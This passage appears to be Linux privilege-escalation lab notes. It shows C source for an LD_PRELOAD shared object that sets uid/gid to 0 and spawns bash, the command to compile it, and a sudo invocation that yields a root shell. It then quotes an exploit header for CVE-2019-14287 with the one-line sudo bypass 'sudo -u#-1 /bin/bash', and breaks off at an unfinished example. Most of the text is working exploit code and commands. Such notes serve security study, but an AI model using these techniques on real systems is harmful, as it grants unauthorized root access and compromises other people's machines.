 ``` bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

$ gcc -fPIC -shared -o ld_preload_shell.so ld_preload_shell.c -nostartfiles
$ ll
total 16
-rwxr-xr-x  1 TCM user 3975 Mar 22 04:53 ld_preload_shell.so
-rw-r--r--  1 TCM user  164 Mar 22 04:52 ld_preload_shell.c
```

```
$ sudo LD_PRELOAD=/home/user/ld_preload_shell.so apache2
root@debian:/home/user#
```
## CVE-2019-14287
Security Bypass
This is a flaw in sudo versions up to 1.8.27

``` python
# Exploit Title : sudo 1.8.27 - Security Bypass
# Date : 2019-10-15
# Original Author: Joe Vennix
# Exploit Author : Mohin Paramasivam (Shad0wQu35t)
# Version : Sudo <1.8.28
# Tested on Linux
# Credit : Joe Vennix from Apple Information Security found and analyzed the bug
# Fix : The bug is fixed in sudo 1.8.28
# CVE : 2019-14287

'''Check for the user sudo permissions

sudo -l 

User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash


So user hacker can't run /bin/bash as root (!root)


User hacker sudo privilege in /etc/sudoers

# User privilege specification
root    ALL=(ALL:ALL) ALL

hacker ALL=(ALL,!root) /bin/bash


With ALL specified, user hacker can run the binary /bin/bash as any user

EXPLOIT: 

sudo -u#-1 /bin/bash

Example : 
```